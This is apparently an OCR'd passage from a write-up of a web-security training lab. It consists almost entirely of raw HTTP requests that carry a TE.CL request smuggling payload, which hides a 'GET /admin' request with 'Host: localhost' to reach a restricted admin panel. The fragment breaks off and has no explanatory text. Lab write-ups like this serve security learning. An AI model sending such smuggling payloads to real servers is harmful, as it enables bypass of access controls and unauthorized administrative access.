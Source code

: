 15
GET /admin HTTP/1.1

0


```

```
POST / HTTP/1.1
Host: 0a51001e036ec66dc008318400cd001d.web-security-academy.net
Cookie: session=zdaG2SWrUcaDv6FrTbj7CXsnLRJ2yjdN
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 4
Transfer-Encoding: chunked
Connection: close

2E
GET /admin HTTP/1.1
Host: localhost
Foo: x

0


```

```
POST / HTTP/1.1
Host: 0a51001e036ec66dc008318400cd001d.web-security-academy.net
Cookie: session=zdaG2SWrUcaDv6FrTbj7CXsnLRJ2yjdN
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 4
Transfer-Encoding: chunked
Connection: close
